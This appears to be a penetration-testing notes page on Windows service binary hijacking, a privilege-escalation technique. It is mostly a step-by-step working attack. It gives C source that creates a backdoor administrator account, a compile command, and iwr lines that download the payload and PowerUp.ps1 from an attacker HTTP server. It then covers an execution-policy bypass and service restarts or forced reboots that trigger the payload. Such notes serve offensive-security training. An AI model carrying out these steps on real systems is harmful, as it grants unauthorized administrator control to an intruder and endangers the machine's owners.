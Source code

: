 ```yaml
---
description: >-
  This attack involves replacing the service binary with a malicious version and
  restart the service.
---
```


# Service Binary Hijacking

Enumerate Services

Using `Get-CimInstance` with PowerShell to list running services and filter built in services:

{% code overflow="wrap" %}
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running' -and $_.PathName -notlike "C:\Windows\system32*"}
```
{% endcode %}

{% hint style="warning" %}
When running **`Get-CimInstance`** and **`Get-Service`** via **WinRM** or a **bind shell** will result in a "Access denied" error when querying for services with a **non-administrative user**. \
Using an interactive logon such as **RDP** solves this problem.
{% endhint %}

## **Enumerate Binary Permissions**

Verifying the permission to modify the binary:

```batch
icacls "<binary_path>"
```

The table below describes the permissions definitions **`icacls`** results:

| Mask | Permissions             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

## Creating The Malicious Binary

The C code you provided appears to add a new user `<user>`  with the password `password123!` to the system and elevate it to administrator:

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user <user> password123! /add");
  i = system ("net localgroup administrators <user> /add");
  
  return 0;
}
```

Compiling this C code to create an executable:

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

Moving the legitimate service's binary, in order to be able to replace with the malicious one:

```batch
move <binary_path> <somepath>
```

Transferring the executable from the attacker machine:

```powershell
iwr -uri http://<attacker_http_server>/adduser.exe -Outfile <binary_path>
```

## **Triggering the Execution**

In order to trigger the malicious binary execution it's needed to either restart the service manually or If the service is set to start automatically, it possible to reboot the machine to force the service to start.\
Once the service restarts, the malicious binary will be executed.

Checking the Service Permissions:

```batch
sc sdshow <service_name>
```

### Manual restart

Trying to restart the service:

{% tabs %}
{% tab title="Batch" %}
```batch
net stop <service_name>
net start <service_name>
```
{% endtab %}

{% tab title="PowerShell" %}
```powershell
Stop-Service <Service_name>
Start-Service <Service_name>
```
{% endtab %}
{% endtabs %}

### Automatic restart

If restarting the service is not allowed, trying the another method as described above:

1. Checking if the service set to restart automatically:

```batch
sc query <service_name>
```

{% code overflow="wrap" %}
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<service_name>'}
```
{% endcode %}

2. Checking if the current user (foothold) has the **`SeShutdownPrivilege`** permission which allows to reboot the machine&#x20;

```batch
whoami /priv
```

3. Rebooting the machine&#x20;

`/r` - Reboot instead of shutdown.

`/t 0` - Trigger in 0 seconds.

```batch
shutdown /r /t 0
```

## Automated Process

It is possible to automate the process using well known tool called `PowerUp` from `PowerSploit` Collection:

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" %}

Downloading PowerUp.ps1:

```powershell
iwr -uri http://<attacker_http_server>/PowerUp.ps1 -Outfile PowerUp.ps1
```

Bypassing Execution Policy:

```batch
powershell -ep bypass
```

Importing PowerUp.ps1:

```powershell
. .\PowerUp.ps1
```

Finding Modifiable Services using **`Get-ModifiableServiceFile`** is a `PowerUp` function that looks for services on the machine whose executables are modifiable by the current user.

```powershell
Get-ModifiableServiceFile
```

Exploiting:

```powershell
Install-ServiceBinary -Name '<service_name>'
```

## References

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/sc-query" %}
Sc.exe query
{% endembed %}
